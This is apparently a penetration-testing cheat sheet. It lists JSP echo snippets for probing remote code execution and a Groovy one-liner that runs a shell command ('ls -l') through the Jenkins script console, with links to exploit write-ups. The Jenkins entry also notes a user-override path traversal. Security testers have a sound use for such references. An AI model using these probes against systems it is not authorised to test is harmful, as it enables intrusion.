 ### 1. Echo hello world, test for RCE in JSP application.
```
<%="Hello Word"%>
```
**- web application,code execution,jsp**
#### References:

https://stackoverflow.com/questions/5713013/echo-instruction-in-jsp
__________
### 2. Echo hello world, test for RCE in JSP application.
```
out.print("Hello World");
```
**- web application,code execution,jsp**
#### References:

https://stackoverflow.com/questions/5713013/echo-instruction-in-jsp
__________
### 3. Echo hello world, test for RCE in JSP application.
```
<c:out value="${[variableName]}" />
```
**- web application,code execution,jsp**
#### References:

https://stackoverflow.com/questions/5713013/echo-instruction-in-jsp
__________
### 4. Execute GroovyScript on Jenkins, You can also execute commands when ReBuilding projects. Also user addition has a path traversal vuln allowing you to override users when registering.
```
def process = "ls -l".execute();println "Found text ${process.text}"
```
**- linux,web application,Windows,code execution,Groovy**
#### References:

https://leonjza.github.io/blog/2015/05/27/jenkins-to-meterpreter---toying-with-powersploit/
https://highon.coffee/blog/jenkins-api-unauthenticated-rce-exploit/
https://www.rapid7.com/db/modules/exploit/multi/http/jenkins_script_console
__________
